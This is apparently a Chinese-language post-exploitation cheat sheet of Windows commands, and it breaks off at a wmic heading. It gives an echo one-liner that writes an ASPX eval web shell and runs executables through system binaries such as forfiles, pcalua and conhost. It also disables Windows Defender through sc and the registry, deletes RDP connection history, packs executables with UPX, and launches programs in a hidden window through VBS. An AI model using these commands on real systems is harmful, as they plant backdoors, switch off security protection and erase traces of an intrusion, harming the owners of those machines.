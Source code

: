将这个路径添加到环境变量<br />设置cmd.exe终端路径：
```go
setx -m PATH "%PATH%;c:\Windows\winsxs\wow64_microsoft-windows-commandprompt_31bf3856ad364e35_6.1.760
1.17514_none_f387767e655cd5ab"  
```

<a name="ExQmU"></a>
## 关于echo写入webshell的问题^
```go
echo ^<^%^@Page Language=^"^Jscript^"^%^>^<^%^eval(Request.Item^[^"aufeng^"^]^,^"unsafe^")^;^%^> >1.txt
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1636464841142-6a02ec93-9263-456b-899e-a5fb2e074951.png#averageHue=%23141312&clientId=ua184e538-1bfd-4&from=paste&id=ub10c4236&originHeight=151&originWidth=1210&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22292&status=done&style=none&taskId=u0e83e245-a756-4b16-9d37-077e3b1f4cc&title=)

<a name="zQEKT"></a>
## 利用自带的系统exe文件执行exe

forfiles /p c:\windows\system32 /m notepad.exe /c "c:\windows\temp\test.exe"<br />pcalua.exe -a c:\windows\temp\test.exe<br />conhost.exe "c:\windows\temp\test.exe"

<a name="LaANB"></a>
## 关闭windefender防火墙
sc stop WinDefend<br />sc config WinDefend start=disabled<br />sc query WinDefend

<a name="mAwtM"></a>
## 关闭windefender
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /d 1 /t REG_DWORD /f  

<a name="t4cTF"></a>
## 删除RDP连接的记录

删除这个文件<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1655451164444-ef42b485-1718-44da-a0cf-5848ee7fa127.png#averageHue=%23fcfcfb&clientId=u93d33571-94e8-4&from=paste&height=626&id=u0ea7ca45&originHeight=782&originWidth=2016&originalType=binary&ratio=1&rotation=0&showTitle=false&size=295856&status=done&style=none&taskId=ud9f72af9-5496-4eb2-9a13-f2f1f5c0500&title=&width=1612.8)<br />还有下面注册表<br />HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default
<a name="iO1p5"></a>
## UPX压缩
以下命令分别对1.exe进行压缩，压缩程度越来越高，压缩时间相应的也越来越长<br />upx.exe -o 2.exe 1.exe<br />upx.exe --best  -o 3.exe 1.exe<br />upx.exe --brute -o 4.exe 1.exe

<a name="A7rX6"></a>
## windows挂后台运行

创建个vbs脚本，ws.Run内容中插入需要运行的内容
```go
set ws=WScript.CreateObject("WScript.Shell") 
ws.Run "calc.exe",0
```
<a name="rWNZM"></a>
## wmic
<a name="Q1eiO"></a>
### 强行结束高权限进程
